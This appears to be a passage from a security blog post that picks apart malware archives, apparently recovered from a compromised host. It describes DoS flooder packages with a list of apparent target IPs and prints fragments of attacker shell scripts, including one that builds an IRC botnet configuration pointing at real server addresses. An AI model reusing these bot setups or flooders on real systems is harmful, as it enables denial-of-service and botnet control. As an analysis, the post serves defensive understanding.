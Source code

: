    # SNIP
    killall -9 a
    else
    echo # Ciudat ..Nu Ai Urmat Instructiunile  #
    echo # trebui dat mv assh a sau mv scan a   #
    echo # orice ai avea tu ... dohh ..         #
    killall -9 a
    killall -9 pscan2
    fi

... because writing a for-loop is too hard. I wonder who mafia89tm@yahoo.com is. Also, if you disable `mail`, how does `mail` work, exactly?

## File: http___no_biju_com_merge_Arhive_devilflood.tar.gz

A package containing executables, probably used to DoS servers. TCP, UDP, IRC and SMTP flooders are present. There is a list of IP addresses in a txt file, probably targets.

There are also a few configuration files with Undernet IRC channels, but joining them reveals no users.

## File http___www_freewebs_com_iulianshooter_psyBNC2_3_2_4.tgz.tar.gz

This is [PsyBNC](http://www.psybnc.at/about.html):

> psyBNC is an easy-to-use, multi-user, permanent IRC-Bouncer with many features. Some of its features include symmetric ciphering of talk and connections (Blowfish and IDEA), the possibility of linking multiple bouncers to an internal network including a shared partyline, vhost- and relay support to connected bouncers and an extensive online help system. Many other helpful functions are included. It compiles on Linux, FreeBSD, SunOs and Solaris.

## File http___eu_ro_ca_img.tar

Another package containing `pscan`. There's also an IRC bot present:

    echo "SERVER 82.196.213.250 6666" >> m.set
    echo "SERVER 208.83.20.130 6667" >> m.set
    echo "SERVER 195.197.175.21 6669" >> m.set

    echo "ENTITY $2" >> m.set

    echo "### BOT 1 ###" >> m.set
    echo "NICK ${denomination[$((RANDOM%num_denominations))]}" >> m.set
    echo "USERFILE $2.user" >> m.set
    echo "CMDCHAR ." >> m.set
    echo "LOGIN ${denomination[$((RANDOM%num_denominations))]}" >> m.set
    echo "IRCNAME ${denomination[$((RANDOM%num_denominations))]}" >> m.set
    echo "MODES +iwsx" >> m.set
    echo "HASONOTICE" >> m.set
    echo "VIRTUAL $2" >> m.set
    echo "TOG CC          1" >> m.set
    echo "TOG CLOAK       1" >> m.set
    echo "TOG SPY         1" >> m.set
    echo "SET OPMODES     6" >> m.set
    echo "SET BANMODES    6" >> m.set
    echo "CHANNEL         #$1 " >> m.set
    echo "TOG PUB         1" >> m.set
    echo "TOG MASS        1" >> m.set
    echo "TOG SHIT        1" >> m.set
    echo "TOG PROT        1" >> m.set
    echo "TOG ENFM        0" >> m.set
    echo "SET MKL         7" >> m.set
    echo "SET MBL         7" >> m.set